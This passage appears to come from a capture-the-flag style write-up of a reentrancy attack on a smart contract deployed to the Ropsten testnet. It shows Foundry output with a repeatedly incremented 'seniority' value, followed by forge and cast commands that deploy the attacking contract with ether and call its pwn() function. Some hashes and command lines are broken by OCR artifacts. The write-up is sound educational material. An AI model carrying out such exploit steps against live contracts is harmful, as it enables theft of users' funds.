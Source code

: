     └─ <font color="#4E9A06">← </font>()  


<font color="#4E9A06">Script ran successfully.</font>    
Gas used: 278997  
== Return == 
== Logs ==   
  seniority: 1    
  seniority: 2    
  seniority: 3    
  seniority: 4    
  seniority: 5    
  seniority: 6    
  seniority: 7    
  seniority: 8
  seniority: 9    
  seniority: 10
  </pre>
</div>

This output is typical of a reentrancy attack.

The final step is to deploy our contract to the **ropsten** blockchain and execute the pwn function. While deploying, ether has to be sent to the contract.

```bash
$ forge create --rpc-url https://ropsten.infura.io/v3/<API key>  --private-key <private key>
a4b7b56f3870d40feb26 test/token.t.sol:TokenTest --value 100 # value is required to send ether to the contract. Otherwise the buyHLB cannot work.
...
Deployer: 0xbafe3de2e4fbd28ce3d71db73b429cf13359f9e8
Deployed to: 0x0afd7d482b51834b1cad91c313d21425f1ad3f61
Transaction hash: 0xa927b9bc266083aed45944efef8bd147ebd0a50e681bd32c473beb1d4e7e2c3
7
```

The function pwn can then be called.

```bash
$ cast send 0x0afd7d482b51834b1cad91c313d21425f1ad3f61 "pwn()"
  --rpc-url https://ropsten.infura.io/v3/<API key> --private
-key <private key>
...
transactionHash         0x17621fe1437f1ec5e6f9533aaf864d7a60bae4d54293f21d5290982dc
42ea2bd
...
```
